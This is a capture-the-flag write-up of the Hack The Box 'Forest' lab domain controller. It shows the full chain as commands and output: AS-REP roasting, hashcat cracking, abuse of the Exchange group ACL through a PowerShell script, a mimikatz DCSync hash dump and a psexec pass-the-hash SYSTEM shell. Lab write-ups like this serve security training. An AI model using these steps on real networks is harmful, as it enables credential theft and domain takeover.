

# Forest

- [Forest](#forest)
  - [Recon](#recon)
    - [Kerberos Pre-auth](#kerberos-pre-auth)
  - [User Compromise](#user-compromise)
    - [Crack the Hash](#crack-the-hash)
  - [Privilege Escalation](#privilege-escalation)
    - [Account Operators](#account-operators)
    - [Remote Management Users](#remote-management-users)
  - [User Shell](#user-shell)
  - [Exchange Windows Permissions](#exchange-windows-permissions)
  - [Privilege Escalation](#privilege-escalation-1)
  - [Summary](#summary)
  - [Resources](#resources)

## Recon

I started with nmap, and if the box names wasn't enough of a hint, surprise, It's a domain controller.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p- --min-rate=10000 -T5 -o nmap_all forest
```


Next, I tried to enumerate all that is SMB.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p445 forest --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse
```

The shares were all of the standard Windows/DC shares and I didn't have access to any of them. I was able to get a list of groups and user accounts. 


The user account list contained a few interesting users:

| User                     | Flags                                                                          |
| ------------------------ | ------------------------------------------------------------------------------ |
| HTB\$331000-VK4ADACQNUCA | Password Expired, Account disabled, Password not required, Normal user account |
| HTB\andy                 | Password does not expire, Normal user account                                  |
| HTB\lucinda              | Password does not expire, Normal user account                                  |
| HTB\mark                 | Password does not expire, Normal user account                                  |
| HTB\santi                | Password does not expire, Normal user account                                  |

There were also several mailbox accounts for Exchange. 

But I still don't have anything useful to go off of. Next, I poked around with rpcclient.

```bash
┌──(milt0r㉿kali)-[~/htb/forest/ldap]
└─$ rpcclient -U "" -N 10.10.10.161
```

Here, I get a little different list. It includes **svc-alfresco** and **sebastien**.

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Enumerate domain groups, and one of them stands out as interesting:

```bash
rpcclient $> enumdomgroups
group:[Privileged IT Accounts] rid:[0x47d]
```

Examine that group membership and it points me to "Service Accounts" which contains our service account. Seems to be what we're looking for. 

```bash
rpcclient $> querygroupmem 0x47d
        rid:[0x47c] attr:[0x7]
rpcclient $> queryuser 0x47c
result was NT_STATUS_NO_SUCH_USER
rpcclient $> querygroup 0x47c
        Group Name:     Service Accounts
        Description:
        Group Attribute:7
        Num Members:1
rpcclient $> querygroupmem 0x47c
        rid:[0x47b] attr:[0x7]
rpcclient $> queryuser 0x47b
        User Name   :   svc-alfresco
        Full Name   :   svc-alfresco
```

Next, I tried ldapdomaindump and ldeep. ldeep returned nothing, and ldapdomaindump encountered an exception that looks to be a [known issue](https://github.com/dirkjanm/ldapdomaindump/issues/26) with that tool and this box. 


From here I started scrolling through the PayloadsAllTheThings AD Attacks article looking for something useful that didn't require creds. Eventually, I landed on Impacket's **GetNPUsers.py.** If you read the section on that tool (link below), it coincidentally mentions svc-alfresco in the example. This tool checks for accounts in the directory where Kerberos pre-auth is disabled (UAC flag 0x400000).

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/ -dc-ip 10.10.10.161
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-10-16 20:10:06.352042  2019-09-23 04:09:47.931194  0x410200
```

Great. 

### Kerberos Pre-auth

In the two or so years I performed AD risk assessments I only remember seeing this disabled a handful of times. It's been so long that I can't even remember the excuses, but I think "legacy systems something something can't change it" was it. 

When pre-auth is enabled, the Key Distribution Center (KDC) challenges the client to use their password hash to encrypt a timestamp. If the KDC, having a copy of the user's password hash, can decrypt and validate that it's within the acceptable range (default +/- five minutes), it'll respond with the ticket-granting ticket (TGT). The TGT is encrypted with the user's password hash. The client can decrypt the TGT only if it has the password hash.

If we disable the pre-authentication requirement, the KDC returns the TGT to any caller. This means that any attacker can get the TGT and attempt to crack the password offline, which is what was accomplished here. 

## User Compromise

Next, I dump the TGT for the service account. 

```
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Cannot authenticate svc-alfresco, getting its TGT
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e
```

### Crack the Hash

I like putting my RTX 3080 to use, so I typically run hashcat on Windows. 

```powershell
PS D:\htb\tools\hashcat\hashcat-6.2.1> .\hashcat.exe -m18200 -a0 hash.txt D:\htb\tools\wordlists\rockyou.txt
hashcat (v6.2.1) starting...

$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a047...327d82089120e:s3rvice
```

**svc-alfresco:s3rvice**

## Privilege Escalation

With creds I can do a bit more enumeration, so I run **ldapdomaindumper** to get everything in a tidy package.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ ldapdomaindump forest.htb -u "htb\svc-alfresco" -p 's3rvice'                                           1 ⨯
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

I already know that the compromised account is in **Privileged IT Accounts**. The domain dump shows me that this group is nested inside **Account Operators** and **Remote Management Users**.

### Account Operators

[Account Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators) is a built-in AD group that is often used as a "lower privileged" group for account administration. It'll let members create accounts and change passwords for accounts and groups other than administrator and a few built-in groups. With this compromised account, I'll be able to update its group membership, or create a new account. 

### Remote Management Users

[Remote Management Users](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)#remote-management-users) are allowed to use WMI resources, including WS-Man. Evil-WinRM should get access to the DC. 

## User Shell

I attempt to connect to the box with Evil-WinRm and get a shell:



From here I grabbed the flag and started exploring more. I didn't find anything obvious as far as services or credentials, so back to abusing AD.

## Exchange Windows Permissions

This group is created by Exchange at install and can write to the directory object (DC=HTB,DC=local). [This article](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/) covers the issue and how to abuse it in depth. If we can add an account to that group, we can use the technique outlined in Dirk-jan's post to abuse DCSync. 

## Privilege Escalation

I created a user account with my newly-compromised account:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user milt0r P@ssw0rd /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" milt0r /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" milt0r /add
The command completed successfully.
```

Next, instead of one of the tools, I'll try modifying the ACL with PowerShell, following the example in this [Exchange and AD privesc guide](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md). 

```powershell
$target = "DC=HTB,DC=local"

import-module ActiveDirectory
$acl = get-acl "ad:$($target)"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:$($target)"
```

I created an smbserver, then copied mimikatz to the box. Mimikatz and Evil-WinRm don't get along. I created a netcat reverse shell and then used up the mimikatz dcsync feature to dump the hashes. 

```
mimikatz # lsadump::dcsync /domain:htb.local /all /csv
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] Exporting domain 'htb.local'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
1136    HealthMailboxc0a90c9    3b4ca7bcda9485fa39616888b9d43f05        66048
1137    HealthMailbox670628e    e364467872c4b4d1aad555a9e62bc88a        66048
1138    HealthMailbox968e74d    ca4f125b226a0adb0a4b1b39b7cd63a9        66048
1139    HealthMailbox6ded678    c5b934f77c3424195ed0adfaae47f555        66048
1140    HealthMailbox83d6781    9e8b2242038d28f141cc47ef932ccdf5        66048
1141    HealthMailboxfd87238    f2fa616eae0d0546fc43b768f7c9eeff        66048
1142    HealthMailboxb01ac64    0d17cfde47abc8cc3c58dc2154657203        66048
1143    HealthMailbox7108a4e    d7baeec71c5108ff181eb9ba9b60c355        66048
1144    HealthMailbox0659cc1    900a4884e1ed00dd6e36872859c03536        66048
502     krbtgt  819af826bb148e603acb0f33d17632f8        514
1146    lucinda 4c2af4b2cd8a15b1ebd0ef6c58b879c3        66048
1151    mark    9e63ebcb217bf3c6b27056fdcb6150f7        66048
1152    santi   483d4c70248510d8e0acb6066cd89072        66048
1150    andy    29dfccaf39618ff101de5165b19d524b        66048
1145    sebastien       96246d980e3a8ceacbf9069173fa06fc        66048
1103    EXCH01$ 050105bb043f5b8ffc3a9fa99b5ef7c1        4096
1134    HealthMailboxc3d7722    4761b9904a3d88c9c9341ed081b4ec6f        66048
1135    HealthMailboxfc9daad    5e89fd2c745d7de396a0152f0e130f44        66048
500     Administrator   32693b11e6aa90eb43d32c72a07ceea6        512
1000    FOREST$ 0e59732db1b9efe07392ab0aa7072bd1        532480
9601    milt0r  e19ccf75ee54e06b06a5907af13cef42        512
1147    svc-alfresco    9248997e4ef68ca2bb47ae4e6f128668        4260352
```

Now that I have the hashes, there's a ton of ways to go. The easiest is to pass the hash via psexec.py.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ psexec.py Administrator@10.10.10.161 -hashes :32693b11e6aa90eb43d32c72a07ceea6                         1 ⨯
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file EMbMagXc.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service sAMo on 10.10.10.161.....
[*] Starting service sAMo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## Summary

- Enumerate list of user accounts from the directory.
- Discover account with Kerberos pre-authentication disabled. 
- Fetch account TGT and crack password.
- Use compromised account to create a new account and add to over-permissioned Exchange group.
- Abuse rights of Exchange group to modify domain object ACL.
- Use new rights from ACL to perform DCSync operation, stealing password hashs.
- Pass-the-hash via psexec.py to gain system shell.

## Resources

- [PayloadsAllTheThings AD Attacks ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [LDAP Filter Ref](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx)
- [Mitigating Exchange Permission Paths to Domain Admins in Active Directory](https://adsecurity.org/?p=4119)